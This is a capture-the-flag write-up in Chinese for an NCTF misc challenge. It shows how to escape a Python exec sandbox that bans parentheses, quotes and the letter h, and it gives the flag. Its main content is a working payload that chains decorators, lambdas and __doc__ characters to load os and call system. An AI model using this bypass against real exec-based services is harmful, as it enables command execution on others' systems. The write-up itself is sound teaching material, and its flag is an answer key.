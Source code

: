 ## Misc

### Hex酱的秘密花园

题目描述:

```
我们可爱的Hex酱又有了一个强大的功能，可以去执行多行语句惹~
但是为了防止有些居心叵测的人，我们专门把括号，单双引号，都过滤掉，噢对不准色色，所以也不准出现h哟~

Ubuntu Python3.6.9

快去找Hex酱(QQ:2821876761)私聊吧
```

附件：

```
https://nctf.slight-wind.com/misc/hex/runner.py
https://attachment.h4ck.fun:9000/misc/hex/runner.py
```

flag：

```
NCTF{HexQBot_1s_s0_cut3~}
```

这个题应该有很多做法

因为使用的是exec所以可以玩的花样很多

主要思路其实就是去获取到类加载器，去加载`os`，然后去执行命令(但是忘ban其他关键词了，直接import也可以

这里不能用括号和引号，所以用`__doc__`然后用列表去获取我们想要的字符。

主要还是匿名函数的使用和`@`这个符号在python中的用法，以及创建对象时调用的构造函数去绕过小括号的过滤去执行函数

所以这里就给出一种解法，更多解法还请感兴趣的师傅们自己去研究一下

```python
b=[].__class__.__base__.__class__.__subclasses__
d=[].__doc__
n={}.__doc__
_=lambda _:[].__class__.__base__
@b
@_
class s:_
l=s[69]
q=lambda _:d[66]+d[2]
p=lambda _:n[2]+n[80]+n[55]+n[6]+n[75]+d[0]+n[80]+n[88]
@l.load_module
@q
class o:_
@o.system
@p
class w:_
```
